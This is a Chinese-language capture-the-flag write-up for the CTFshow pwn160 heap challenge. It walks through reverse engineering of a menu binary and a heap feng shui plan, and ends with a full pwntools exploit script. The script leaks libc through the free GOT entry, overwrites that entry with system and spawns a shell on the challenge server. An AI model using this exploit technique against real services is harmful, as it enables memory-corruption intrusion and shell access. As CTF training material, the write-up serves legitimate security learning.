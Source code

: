 ```yaml
---
title: CTFshow pwn160
---
```

# CTFshow pwn160(堆风水)

## ida分析

### main函数分析
![1741933551272.png](https://img.picui.cn/free/2025/03/14/67d3cbefdff92.png)
1.简单的菜单题，通过menu，简单把函数名称修改，做一个简单的逆向

### add函数分析
![1741933652418.png](https://img.picui.cn/free/2025/03/14/67d3cc54920c5.png)
1.通过add函数，要对堆块的储存结构有清晰的认知，这会影响甚至是决定我们攻击的手法。
2.可以看到每次add会申清两个堆块，一个大小由我们控制，一个大小固定为0x80。并且，大小自由的堆块的指针会被保存在，大小固定的那个堆块内。而大小固定的那个堆块的指针会被保存在heaplist(逆向重命名过)上。
3.input第一个参数是作为指针，所以他会写在v3上，位置是s指针后面。
4.然后这里调用edit去编辑堆块内容

### edit函数分析
![1741934774792.png](https://img.picui.cn/free/2025/03/14/67d3d0bb5c4d7.png)
1.看到这里对输入字节大小的检查，就可以联想到堆风水。是通过堆块的位置加上输入字节的大小，与另一块堆块的地址大小比较来判断。如果这两个堆块之间，有其他堆块，那么我们就可以对中间的堆块为所欲为了。

### show函数分析
![1741935092305.png](https://img.picui.cn/free/2025/03/14/67d3d1f5186f5.png)
1.唯一的作用就是泄露libc

### delete函数分析
![1741935146434.png](https://img.picui.cn/free/2025/03/14/67d3d22ae54bb.png)
1.没有uaf，不能直接利用

### gdb分析
![1741934513485.png](https://img.picui.cn/free/2025/03/14/67d3cfb254f83.png)
1.通过gdb，可以对堆块的内容，结构有更清晰的观察和了解

## 构造思路
1.首先确定攻击的手法——堆风水.也就是要造成我们申清的堆块在最上方，add自动申清的堆块在最下方。此时我们就可以控制中间的堆块了.而0x80大小，会被放入unsortedbin中，满足先进先出的规则。那么我们先申请几个堆块，小于0x80。free掉堆块0，再add一个0x80大小的堆块，它会在从unsortedbin中取出之前的堆块给我们，同时从topchunk中分配出另一块。至此，一块低地址，一块高地址的堆块构造完成。
2.第二部对照gdb，把对应位置出的内容修改成free_got就可以通过show泄露libc.然后再通过edit修改got表内容。
3.最后delete一块内容为`/bin/sh\x00`的堆块就可以打通了.

## exp
### 比较复杂的解法
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
mode=1
url='pwn.challenge.ctf.show'
port=28252
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name,lenth,content):
    io.recvuntil("Action: ")
    io.sendline("0")
    io.recvuntil("size of description: ")
    io.sendline(str(size))
    io.recvuntil("name: ")
    io.sendline(name)
    io.recvuntil("text length: ")
    io.sendline(str(lenth))
    io.recvuntil("text: ")
    io.sendline(content)

def delete(idx):
    io.recvuntil("Action: ")
    io.sendline("1")
    io.recvuntil("")
    io.sendline(str(idx))

def show(idx):
    io.recvuntil("Action: ")
    io.sendline("2")
    io.recvuntil("")
    io.sendline(str(idx))

def edit(idx,lenth,content):
    io.recvuntil("Action: ")
    io.sendline("3")
    io.recvuntil("index: ")
    io.sendline(str(idx))
    io.recvuntil("text length: ")
    io.sendline(str(lenth))
    io.recvuntil("text: ")
    io.sendline(content)

add(0x10,b"a",0x8,b'hhhh')  #0
add(0x20,b"b",0x8,b'hhhh')  #1
add(0x20,b"c",0x8,b'hhhh')  #2
add(0x20,b"d",0x10,b'/bin/sh\x00')  #3
delete(2)  
delete(0)

add(0x10,b"d",0x40,b'aaaa') #4
add(0x80,b'e',0x8,b'bbbb')  #5
free_got=elf.got['free']
payload=p32(0)*5+p32(0x89)
payload+=p32(0)*16
payload+=p32(0x88)+p32(0x28)
payload+=p32(0)*9+p32(0x89)
payload+=p32(0)*4
payload+=p32(0x88)+p64(0x29)
payload+=p32(0)*8+p32(0x89)
payload+=p32(free_got)
edit(4,len(payload),payload)
show(1)
io.recvuntil("description: ")
free=u32(io.recv(4))
log.success('free-{}'.format(hex(free)))
#gdb.attach(io)
libc=LibcSearcher("free",free)
libcbase=free-libc.dump('free')
system=libcbase+libc.dump('system')
edit(1,0x4,p32(system))
#gdb.attach(io)
delete(3)
io.interactive()
```
现在看来，delete(2)似乎有点多余了